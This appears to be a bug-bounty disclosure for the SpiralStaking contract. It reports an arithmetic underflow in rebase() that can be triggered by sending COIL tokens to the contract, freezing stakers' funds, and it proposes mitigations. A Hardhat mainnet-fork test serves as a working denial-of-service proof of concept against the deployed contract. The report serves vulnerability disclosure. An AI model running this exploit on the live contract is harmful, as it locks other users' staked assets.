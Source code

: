 **Description**\
Contract in scope: [SpiralStaking](https://etherscan.io/address/0x6701E792b7CD344BaE763F27099eEb314A4b4943)  
Vulnerable method: [function rebase() public](https://etherscan.io/address/0x6701E792b7CD344BaE763F27099eEb314A4b4943#code#F1#L56)  
Line of bug: [Coil.mint(address(this), (totalSpiral * index / initialIndex) - Coil.balanceOf(address(this)));](https://etherscan.io/address/0x6701E792b7CD344BaE763F27099eEb314A4b4943#code#F1#L63)  

Malicious or accidental sending of COIL tokens to this contract can lead to **arithmetic underflow** when `Coil.balanceOf(address(this)) > (totalSpiral * index / initialIndex)`.  

Impacts:  
DoS of methods `rebase` and subsequently `stake/unstake` (calls `rebase`), i.e. stakers assets are frozen in the contract.  

Solutions:  
Immediately: In case of this attack, set `epoch.apr` to 0. This ensures that the vulnerable line is not executed and stakers can unstake.  
New contract: Check for underflow with an additional if and only mint if necessary.

**Attack Scenario**\
Anyone with enough COIL tokens can simply send them to the SpiralStaking contract such that `Coil.balanceOf(address(this)) > (totalSpiral * index / initialIndex)`.  
This is all it takes to facilitate the attack.

**Proof of Concept**  
The whole Hardhat mainet fork PoC project is available upon request.  

Here is the relevant typescript test code:
```typescript
import type { SignerWithAddress } from "@nomiclabs/hardhat-ethers/dist/src/signer-with-address";
import { expect } from "chai";
import { ethers, network } from "hardhat";

import * as contracts from "../../src/types";
import { addBalance_ETH, impersonate, printBalance_ERC20, printBalance_ETH, sendToken_ERC20 } from "./helper";

describe("Attach to external contract", async function () {
  let signer: SignerWithAddress;

  let stakingContract: contracts.SpiralStaking;

  before(async function () {
    // address of external contract must be provided via env. variable
    const contractAddress: string = <string>process.env.CONTRACT_ADDRESS;
    const impersonateAddress: string = <string>process.env.IMPERSONATE_ADDRESS;

    if (impersonateAddress) {
      signer = await impersonate(impersonateAddress);
    } else {
      [signer] = await ethers.getSigners();
    }

    // PoC: fill attacker/signer account with 10 000 COIL
    const contractCoil = "0x823E1B82cE1Dc147Bbdb25a203f046aFab1CE918";
    const holderCoil = "0xAF4264916B467e2c9C8aCF07Acc22b9EDdDaDF33";
    await sendToken_ERC20(contractCoil, holderCoil, signer.address, 10000);
    
    stakingContract = await ethers.getContractAt("SpiralStaking", contractAddress, signer);
  });

  it("DoS attack", async function () {
    // PoC: send 10 000 COIL to staking contract
    const contractCoil = "0x823E1B82cE1Dc147Bbdb25a203f046aFab1CE918"
    await sendToken_ERC20(contractCoil, signer.address, stakingContract.address, 10000);

    // PoC: rebase DoS
    await expect(stakingContract.connect(signer).rebase()).to.be.reverted;

    // skip 10 000 blocks
    await network.provider.send("hardhat_mine", ["0x2710"]);

    // PoC: rebase DoS
    await expect(stakingContract.connect(signer).rebase()).to.be.reverted;
  });
});
```



